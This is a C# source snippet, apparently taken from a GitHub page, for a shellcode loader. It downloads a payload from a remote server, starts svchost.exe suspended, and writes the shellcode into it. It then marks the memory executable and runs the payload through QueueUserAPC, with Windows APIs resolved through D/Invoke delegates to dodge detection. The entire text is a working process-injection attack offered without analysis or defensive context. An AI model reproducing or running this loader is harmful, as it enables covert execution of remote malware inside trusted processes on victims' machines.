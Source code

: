 ```csharp
			byte[] sheocode;
			using (var recv = new HttpClient())
            {
				sheocode = recv.GetByteArrayAsync("https://remote_server/shellcode.bin").GetAwaiter().GetResult();
            }

			STRUCTS.STARTUPINFO startInfo = new STRUCTS.STARTUPINFO();
			STRUCTS.PROCESS_INFORMATION procInfo = new STRUCTS.PROCESS_INFORMATION();

			// Invoke functions/APIs via Delegates
			// Get the pointer to the fucntions from DLLs
			// Then, get the delegate for the function pointer. Store it into a variable with the same delegate type

			// CreateProcess
			IntPtr pntr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "CreateProcessA");
			DELEGATES.CreateProcess createProc = Marshal.GetDelegateForFunctionPointer(pntr, typeof(DELEGATES.CreateProcess)) as DELEGATES.CreateProcess;
			// Start proc in suspended state 
			createProc("C:\\Windows\\System32\\svchost.exe", null, IntPtr.Zero, IntPtr.Zero, false, STRUCTS.ProcessCreationFlags.CREATE_SUSPENDED,
			IntPtr.Zero, null, ref startInfo, out procInfo);

			// VirtualAllocEx
			pntr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "VirtualAllocEx");
			DELEGATES.VirtualAllocEx virAllEx = Marshal.GetDelegateForFunctionPointer(pntr, typeof(DELEGATES.VirtualAllocEx)) as DELEGATES.VirtualAllocEx;
			IntPtr allocret = virAllEx(procInfo.hProcess, IntPtr.Zero, (uint)sheocode.Length, 0x1000 | 0x2000, 0x04); //MEM_COMMIT | MEM_RESERVE; 0x04: RW
			Console.WriteLine("Base address of remote mem space is: " + (long)allocret, 16);
			
			// WriteProcessMemory
			pntr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "WriteProcessMemory");
			DELEGATES.WriteProcessMemory writeProcMem = Marshal.GetDelegateForFunctionPointer(pntr, typeof(DELEGATES.WriteProcessMemory)) as DELEGATES.WriteProcessMemory;
			writeProcMem(procInfo.hProcess, allocret, sheocode, (uint)sheocode.Length, out UIntPtr bytesWritten);
			
			// VirtualProtectEx
			uint oldProtect = 0;
			pntr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "VirtualProtectEx");
			DELEGATES.VirtualProtectEx virProtEx = Marshal.GetDelegateForFunctionPointer(pntr, typeof(DELEGATES.VirtualProtectEx)) as DELEGATES.VirtualProtectEx;
			virProtEx(procInfo.hProcess, allocret, sheocode.Length, 0x20, out oldProtect); // 0x20: RX
			
			// QueueUserAPC
			pntr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "QueueUserAPC");
			DELEGATES.QueueUserAPC qUsrAPC = Marshal.GetDelegateForFunctionPointer(pntr, typeof(DELEGATES.QueueUserAPC)) as DELEGATES.QueueUserAPC;
			qUsrAPC(allocret, procInfo.hThread, IntPtr.Zero);
			
			// ResumeThread
			pntr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "ResumeThread");
			DELEGATES.ResumeThread resThrd = Marshal.GetDelegateForFunctionPointer(pntr, typeof(DELEGATES.ResumeThread)) as DELEGATES.ResumeThread;
			resThrd(procInfo.hThread);
			
		}

	}

```